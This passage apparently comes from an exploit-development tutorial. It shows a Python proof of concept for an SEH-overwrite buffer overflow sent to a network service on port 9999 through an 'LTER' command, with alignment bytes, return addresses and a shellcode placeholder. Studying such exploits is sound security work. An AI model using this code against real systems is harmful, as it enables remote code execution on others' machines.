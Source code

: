 ###### PoC code:

```term
import socket, sys, struct

[shellcode]

alignment = ""
alignment += "\x54\x58\x54\x5B"
alignment += "\x66\x05\x58\x13"
alignment += "\x50\x5C"
alignment += "\x53\x58"
alignment += "\x66\x05\x68\x05"
alignment += "\x50\x5E"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3 + buf + "A" * (3515  - 3 - len(buf)) + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### ESI is now pointing into the shellcode!

![](/assets/img/LTER/14.png)
